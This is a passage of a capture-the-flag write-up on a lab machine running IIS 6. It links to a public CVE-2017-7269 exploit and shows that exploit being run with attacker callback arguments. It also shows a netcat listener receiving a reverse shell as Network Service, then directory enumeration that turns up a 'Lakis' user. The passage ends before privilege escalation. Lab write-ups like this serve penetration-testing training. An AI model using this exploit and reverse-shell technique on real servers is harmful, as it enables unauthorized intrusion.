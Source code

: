 The full exploit code is available here:

<https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell>

&nbsp;

# Exploitation

Launching the exploit script and specifying all the needed arguments:

```
$ python cve-2017-7269.py 10.10.10.15 80 10.10.16.209 8989                                                                                                                          1 ￢ﾨﾯ 1 ￢ﾚﾙ
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: ....
```

We get a shell as `NT Authoroty\Network Service`:

```
$ nc -nlvp 8989
listening on [any] 8989 ...
connect to [10.10.16.209] from (UNKNOWN) [10.10.10.15] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami                                                                                        
nt authority\network service
```

Once we are in the machine, it is useful to conduct a further enumeration.
Inside the `Documents and Settings` folder, there is a hint about a possible `Lakis` user:

```
C:\Documents and Settings> dir

 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of C:\Documents and Settings

04/12/2017  10:19 PM    <DIR>          .
04/12/2017  10:19 PM    <DIR>          ..
04/12/2017  09:48 PM    <DIR>          Administrator
04/12/2017  05:03 PM    <DIR>          All Users
04/12/2017  10:19 PM    <DIR>          Lakis
               0 File(s)              0 bytes
               5 Dir(s)  18,119,520,256 bytes free

C:\Documents and Settings>cd Lakis
cd Lakis
Access is denied.
```
The folder is not accessible. In order to get the user flag we have to escalate privileges.
